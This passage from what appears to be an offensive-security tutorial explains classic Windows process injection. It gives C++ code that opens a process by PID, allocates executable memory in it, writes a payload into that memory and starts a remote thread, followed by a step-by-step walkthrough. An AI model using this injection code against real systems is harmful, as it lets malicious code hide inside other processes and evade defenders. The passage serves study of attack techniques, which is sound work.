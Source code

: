 ```cpp
int main(int argc, char* argv[]) {
  HANDLE ph; // process handle
  HANDLE rt; // remote thread
  PVOID rb; // remote buffer

  // parse process ID
  printf("PID: %i", atoi(argv[1]));
  ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));

  // allocate memory buffer for remote process
  rb = VirtualAllocEx(ph, NULL, my_payload_len, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);

  // "copy" data between processes
  WriteProcessMemory(ph, rb, my_payload, my_payload_len, NULL);

  // our process start new thread
  rt = CreateRemoteThread(ph, NULL, 0, (LPTHREAD_START_ROUTINE)rb, NULL, 0, NULL);
  CloseHandle(ph);
  return 0;
}

```

First you need to get the PID of the process, you could enter this PID yourself in our case. Next, open the process with [OpenProcess](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-openprocess) function provided by `Kernel32` library:   
![open process](/assets/images/6/2021-09-19_00-16.png){:class="img-responsive"}

Next, we use `VirtualAllocEx` which is allows to you to allocate memory buffer for remote process **(1)**:

![injection 5](/assets/images/6/2021-09-19_00-31.png){:class="img-responsive"}

Then, `WriteProcessMemory` allows you to copy data between processes, so copy our payload to `calc.exe` process **(2)**. And `CreateRemoteThread` is similar to `CreateThread` function but in this function you can specify which process should start the new thread **(3)**.
